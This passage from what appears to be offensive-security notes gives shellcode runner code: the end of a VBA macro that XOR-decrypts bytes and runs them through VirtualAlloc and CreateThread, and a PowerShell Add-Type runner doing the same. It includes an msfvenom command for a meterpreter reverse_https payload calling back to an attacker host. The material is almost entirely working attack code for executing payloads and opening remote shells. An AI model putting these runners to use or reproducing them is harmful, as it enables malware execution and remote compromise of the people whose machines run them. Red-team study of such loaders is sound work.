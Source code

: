 ```vba
  buf = Array(31, 33, ..., 33, 37)

  ' XOR-decrypt the shellcode
  For i = 0 To UBound(buf)
    buf(i) = buf(i) Xor Asc("a")
  Next i

  ' &H3000 = 0x3000 = MEM_COMMIT | MEM_RESERVE
  ' &H40 = 0x40 = PAGE_EXECUTE_READWRITE
  addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)

  For counter = LBound(buf) To UBound(buf)
    data = buf(counter)
    res = RtlMoveMemory(addr + counter, data, 1)
  Next counter

  res = CreateThread(0, 0, addr, 0, 0, 0)
End Function
```
{% endcode %}




## PowerShell



### Using Add-Type and C\#

C data types to C# data types "translation" can be done with P/Invoke APIs (Platform Invocation Services) at [www.pinvoke.net](http://www.pinvoke.net/) (e.g., [VirtualAlloc](http://www.pinvoke.net/default.aspx/kernel32.VirtualAlloc)).

{% code title="ShellcodeRunnerv1.ps1" %}
```powershell
$Win32 = @"
using System;
using System.Runtime.InteropServices;

public class Win32 {
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

    [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
}
"@

Add-Type $Win32

[Byte[]] $buf = 0x31,0x33,...,0x33,0x37
$size = $buf.Length
# msfvenom -p windows/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f ps1
[IntPtr]$addr = [Win32]::VirtualAlloc(0, $size, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)
$thandle = [Win32]::CreateThread(0, 0, $addr, 0, 0, 0)
[Win32]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```
{% endcode %}

